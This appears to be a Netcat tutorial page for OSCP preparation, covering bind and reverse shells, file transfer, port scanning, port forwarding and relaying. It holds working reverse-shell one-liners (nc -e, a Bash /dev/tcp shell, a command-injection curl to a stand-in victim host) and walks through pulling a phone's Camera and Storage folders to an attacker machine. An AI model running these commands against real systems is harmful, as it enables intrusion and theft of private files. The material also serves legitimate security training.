

# Netcat

<figure><figcaption></figcaption></figure>

* **Connecting to TCP/UDP Port**


We can use client mode to connect to any TCP/UDP port, allowing us to:

* &#x20; Check if a port is open or closed.&#x20;

&#x20; •     Read a banner from the service listening on a port.&#x20;

&#x20; •     Connect to a network service manually.

## **Netcat**

Netcat first released in 1995(!) by _Hobbit_ is one of the “original” network penetration testing tools and is so versatile that it lives up to the author’s designation as a hacker’s “Swiss army knife”. The clearest definition of Netcat is from _Hobbit_ himself: a simple “utility which reads and writes data across network connections, using TCP or UDP protocols

<figure><figcaption></figcaption></figure>

OK!

in the Victim Write  this

```bash
nc -nvlp <PORT>
```


In the Attacker

```sh
nc -nv <IP> <PORT>
```


Chatting using nc

`nc -nvlp 4444` // on the server

• `-n` stands for "numeric-only", which prevents `nc` from attempting to resolve hostnames to IP addresses.

• `-v` stands for "verbose", which causes `nc` to print more detailed output.

• `-l` stands for "listen", which causes `nc` to listen on the specified port for incoming connections.

• `-p` stands for "port", which specifies the port number to listen on.

`nc -nv 10.0.2.10 4444` on the client to make a connection with the server

***


The netcat tool supports some protocols, but it works mainly on the TCP protocol. If you want to choose a different protocol, you must specify the type of protocol through switches.


`-t` (TCP)  -> To use TCP instead of the default.

`-u` (UDP) -> To Use UDP Protocol

> There are some other protocols, such as RAW and others, and I will leave it to you to search for that

\--

### Bind shell

`nc -nvlp 4444 -e /bin/bash` ⇒ on the victim machine

`nc -nv 10.0.2.10 4444` ⇒ on attacker machine to connect with the victim machine

—

## Reverse Shell

`nc -nvlp 4444` ⇒ on attacker machine

`nc -nv 10.0.2.9 4444` -e /bin/bash ⇒ on victim machine

`netcat` is a powerful tool often used in the OSCP (Offensive Security Certified Professional) exam for various purposes, such as setting up reverse shells, file transfers, port scanning, and even setting up a simple web server. Here are some common `netcat` use cases that are particularly relevant for the OSCP:

### 1. Reverse Shells

A reverse shell is a shell session initiated by the target machine to the attacker's machine. This is often used to bypass firewalls and NAT.

**On the Attacker's Machine (Listening):**

```sh
nc -lvnp 4444
```

**On the Target Machine (Connecting Back):**

```sh
nc -e /bin/bash <attacker_ip> 4444
```

For Windows targets:

```sh
nc.exe -e cmd.exe <attacker_ip> 4444
```

### 2. Bind Shells

A bind shell is a shell session where the target machine opens a listening port and waits for an attacker to connect to it.

**On the Target Machine (Listening):**

```sh
nc -lvnp 4444 -e /bin/bash
```

For Windows targets:

```sh
nc.exe -lvnp 4444 -e cmd.exe
```

**On the Attacker's Machine (Connecting):**

```sh
nc <target_ip> 4444
```

### 3. File Transfer

`netcat` can be used to transfer files between the attacker and the target machine.

**On the Receiving Machine:**

```sh
nc -lvnp 4444 > received_file
```

**On the Sending Machine:**

```sh
nc <receiver_ip> 4444 < file_to_send
```

**and use Watch to watch transferring**

```bash
watch -n 0.1 -d ls -la
```


Advanced:\
If we want to download a folder, for example, that contains a lot of data Or Information's  , in reality we will not be able to transfer it in the same way.


There are many ways, but I will Just One Way Using Netcat&#x20;

## 1. Netcat

> You Will Compress The File And Then Transfer The Compressed File Which Holds A Lot Of Data

<figure><figcaption></figcaption></figure>

I've turned on **Netcat** From My <mark style="color:red;">**Termux**</mark> In My Phone I brought the shell using the methods we learned above , Now let's see the contents of this Camera folder

<figure><figcaption><p>It seems to hold a lot of sensitive data</p></figcaption></figure>


```bash
tar -cvzf cam.zip Camera
```

<figure><figcaption></figcaption></figure>

In Attacker Machine After Bring control Using <mark style="color:red;">**Termux**</mark> Open New Session Using Netcat

```
ncat -lnvp 8080 < cam.zip
```

<figure><figcaption></figcaption></figure>

And In Same Attacker Machine , Open New Tap And Get File Zip

<figure><figcaption></figcaption></figure>

<mark style="color:red;">**Then unzip it and all the data has been simply brought into one compressed file**</mark>


You can use the same idea in an external path to retrieve the largest number of information, files and folders from the victim’s device

\--\
Such a folder is located inside a main folder named <mark style="color:red;">Storage</mark>\
What if I discussed the same idea?

**You will have all this information at your fingertips:**

.png>) \
**Inside these folders there is a lot of sensitive information and files**


### &#x20;4. Port Scanning

`netcat` can be used to scan for open ports on a target machine.

```sh
nc -zv <target_ip> 20-100
```

### 5. Banner Grabbing

To gather information about services running on open ports.

```sh
nc <target_ip> 80
```

You can then type something like `HEAD / HTTP/1.1` and press Enter twice to get the HTTP headers.

### 6. Setting Up a Simple Web Server

You can use `netcat` to serve a single HTTP response.

**Simple HTTP Server:**

Create a simple HTML file (`index.html`):

```html
<!DOCTYPE html>
<html>
<body>
<h1>Hello, OSCP!</h1>
</body>
</html>
```

Serve the file with `netcat`:

```sh
while true; do { echo -e 'HTTP/1.1 200 OK\r\n'; cat index.html; } | nc -lvnp 8080; done
```

### 7. Port Forwarding

You can forward traffic from one port to another using `netcat`.

```sh
mkfifo /tmp/f; nc -lvnp 8080 < /tmp/f | nc <target_ip> 80 > /tmp/f
```

#### Practical Examples in OSCP

**Example 1: Reverse Shell via a Vulnerable Web Application**

Assume you have identified a vulnerable web application that allows you to execute commands. You could use the following command to get a reverse shell:

```sh
curl http://victim.com/vulnerable?cmd=nc -e /bin/bash <attacker_ip> 4444
```

**Example 2: Privilege Escalation via File Transfer**

You have gained limited access to a target machine and found a privilege escalation exploit that you need to upload. On your machine:

```sh
nc -lvnp 4444 < exploit.c
```

On the target machine:

```sh
nc <attacker_ip> 4444 > exploit.c
```

**Example 3: Scanning for Open Ports During Reconnaissance**

Use `netcat` to quickly check for open ports on a target machine:

```sh
nc -zv 192.168.1.5 1-65535
```

**Example 4: Bind Shell for Post-Exploitation**

You have exploited a service and want to maintain access:

On the target machine:

```sh
nc -lvnp 4444 -e /bin/bash
```

On your machine:

```sh
nc <target_ip> 4444
```

By mastering these `netcat` commands and understanding how to use them in various scenarios, you can greatly enhance your efficiency and effectiveness during the OSCP exam. Always remember to follow the ethical guidelines and legal boundaries when using these techniques.

#### Reverse shell without Netcat on the target host

One major downside on the shown example is that you need Netcat on that target host which is very often not the case in real world scenario’s. In some cases Netcat is present, or we have a way to install it, but in many cases we need to use alternatives ways to connect back to the attack box. Let’s have a look at a few alternative ways to setup a reverse shell.

## _**Bash reverse shell**_

With can also use Bash to initiate a reverse shell from the target host to the attack box by using the following command:

> bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

Advenced Usage (Relay)

<figure><figcaption></figcaption></figure>

We will explain it with a simple example:

We have three devices <mark style="color:red;">A</mark> , <mark style="color:blue;">B</mark> , <mark style="color:green;">C</mark>\
Device <mark style="color:red;">**A**</mark> He can't see it Device <mark style="color:green;">C</mark> But , Device <mark style="color:blue;">B</mark> Can See Device <mark style="color:green;">C</mark> , And Device <mark style="color:red;">A</mark>

<figure><figcaption></figcaption></figure>

So .. In Case Device <mark style="color:green;">C</mark> Send CMD To Device <mark style="color:blue;">B</mark> In Port 8080 , And Device <mark style="color:blue;">B</mark> Can See Device <mark style="color:red;">A</mark> , U Can Send Malware To Connect Or Forward Connection From Device <mark style="color:blue;">B</mark> To Device <mark style="color:red;">A</mark>

<mark style="color:red;">A -></mark> 192.168.1.2 <mark style="color:red;">(Attacker)</mark>

<mark style="color:blue;">B -></mark> 192.168.2.5 <mark style="color:blue;">(Server)</mark>

<mark style="color:green;">C -></mark> 192.168.2.3 <mark style="color:green;">(Victim)</mark>

```
Device_A# nc -lnvp 22

Device_B# nc -lnvp 8080 | nc 192.168.1.2 22

Device_C# nc 192.168.2.5 8080 -e /bin/bash
```
